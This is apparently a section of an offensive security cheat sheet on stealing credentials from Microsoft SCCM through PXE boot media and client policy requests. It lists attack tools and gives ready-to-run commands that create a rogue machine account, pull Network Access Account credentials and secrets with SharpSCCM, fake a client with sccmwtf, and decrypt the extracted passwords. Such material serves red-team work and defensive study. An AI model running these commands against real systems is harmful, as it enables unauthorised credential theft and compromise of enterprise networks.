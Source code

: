 * [subat0mik/Misconfiguration-Manager/MisconfigurationManager.ps1](https://github.com/subat0mik/Misconfiguration-Manager) - Misconfiguration Manager is a central knowledge base for all known Microsoft Configuration Manager tradecraft and associated defensive and hardening guidance.

### CRED-1 Retrieve credentials via PXE boot media

* [Misconfiguration-Manager - CRED-1](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-1/cred-1_description.md)

**Requirements**:

* On the SCCM Distribution Point: `HKLM\Software\Microsoft\SMS\DP\PxeInstalled` = 1
* On the SCCM Distribution Point: `HKLM\Software\Microsoft\SMS\DP\IsPxe` = 1
* PXE-enabled distribution point

**Exploitation**:

* [csandker/pxethiefy](https://github.com/csandker/pxethiefy)

    ```ps1
    sudo python3 pxethiefy.py explore -i eth0
    ```

* [MWR-CyberSec/PXEThief](https://github.com/MWR-CyberSec/PXEThief)

### CRED-2 Request a policy containing credentials

* [Misconfiguration-Manager - CRED-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-2/cred-2_description.md)

**Requirements**:

* PKI certificates are not required for client authentication
* Domain accounts credential

**Exploitation**:

Create a machine or compromise an existing one, then request policies such as `NAAConfig`

Easy mode using `SharpSCCM`

```ps1
addcomputer.py -computer-name 'attacker$' -computer-pass P@ssw0rd -dc-ip 10.10.10.10 lab.lan/user:'P@ssw0rd'
SharpSCCM.exe get naa -r newdevice -u attacker$ -p P@ssw0rd
SharpSCCM get naa
SharpSCCM get secrets -u <username-machine-$> -p <password>
```

Stealthy mode by creating a computer.

* Create a machine account with a specific password: `addcomputer.py -computer-name 'customsccm$' -computer-pass 'YourStrongPassword123*' 'sccm.lab/carol:SCCMftw' -dc-ip 192.168.33.10`
* In your `/etc/hosts` file, add an entry for the MECM server: `192.168.33.11 MECM MECM.SCCM.LAB`
* Use `sccmwtf` to request a policy: `python3 sccmwtf.py fake fakepc.sccm.lab MECM 'SCCMLAB\customsccm$' 'YourStrongPassword123*'`
* Parse the policy to extract the credentials and decrypt them using [sccmwtf/policysecretunobfuscate.py](https://github.com/xpn/sccmwtf/blob/main/policysecretunobfuscate.py): `cat /tmp/naapolicy.xml |grep 'NetworkAccessUsername\|NetworkAccessPassword' -A 5 |grep -e 'CDATA' | cut -d '[' -f 3|cut -d ']' -f 1| xargs -I {} python3 policysecretunobfuscate.py {}`
